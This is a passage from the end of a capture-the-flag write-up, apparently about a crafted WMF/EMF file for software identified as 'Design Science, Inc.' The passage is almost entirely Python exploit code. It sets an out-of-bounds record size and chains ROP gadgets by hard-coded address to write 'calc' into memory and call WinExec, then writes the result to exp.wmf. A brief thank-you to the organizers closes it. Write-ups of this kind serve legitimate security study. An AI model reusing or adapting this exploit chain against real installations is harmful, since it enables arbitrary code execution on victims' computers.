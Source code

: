 ```python
bWFuABEDU3ltYm9sABEFQ291cmllciBOZXcAEQRNVCBFeHRyYQATV2luQU5TSQAR
BlRlYW1WaWV3ZXIxMwASAAghL0WPRC9BUPQQD0dfQVDyHx5BUPQVD0EA9EX0JfSP
Ql9BAPQQD0NfQQD0j0X0Kl9I9I9BAPQQD0D0j0F/SPQQD0EqX0RfRfRfRfRfQQ8M
AQABAAECAgICAAIAAQEBAAMAAQAEAAUACgAA
''')

    e = EMFRecord(payload)
    e.efun = 0xf
    e.bytecount = 0xff
    e.alloc_size = 0x108
    e.buff_size = 0xda

    h + e

    payload = 'Design Science, Inc.\x00'
    payload += 'A' * 0x3e

    payload = payload.encode()

    payload += p32(0x00753053)  # gadget 1 0x00753053: pop esi ; pop esp ; pop ebp ; ret  ;  (6 found)
    payload += p32(0x0043b056)  # 0x0043b056: add esp, 0x18 ; ret  ;  (2 found)
    payload += 'Design Science, Inc.\x00\x00\x00\x00'.encode()

    # 0x004f086e: pop eax ; ret  ;  (51 found)
    # 0x004f0e9c: mov dword [ecx], eax ; ret
    # 0x0040359f: pop ecx ; ret  ;  (934 found)

    payload += p32(0x004f086e)
    payload += p32(0x636c6163)
    payload += p32(0x0040359f)
    payload += p32(0x00619FC0)
    payload += p32(0x004f0e9c)

    payload += p32(0x04EDB7E)  # WinExec
    payload += p32(0x583190)  # ExitProcess
    payload += p32(0x00619FC0)
    payload += p32(5)

    e = EMFRecord(payload)
    e.efun = 0xf
    e.bytecount = 0x100
    e.alloc_size = 0x108  # it doesn't matter
    e.buff_size = len(payload)  # oob

    h + e

    with open('exp.wmf', 'wb') as f:
        f.write(bytes(h))
```

## Final words

Thanks for organizer! Such an interesting challenge!. Btw heap manipulation works the way that I don't think it works :).

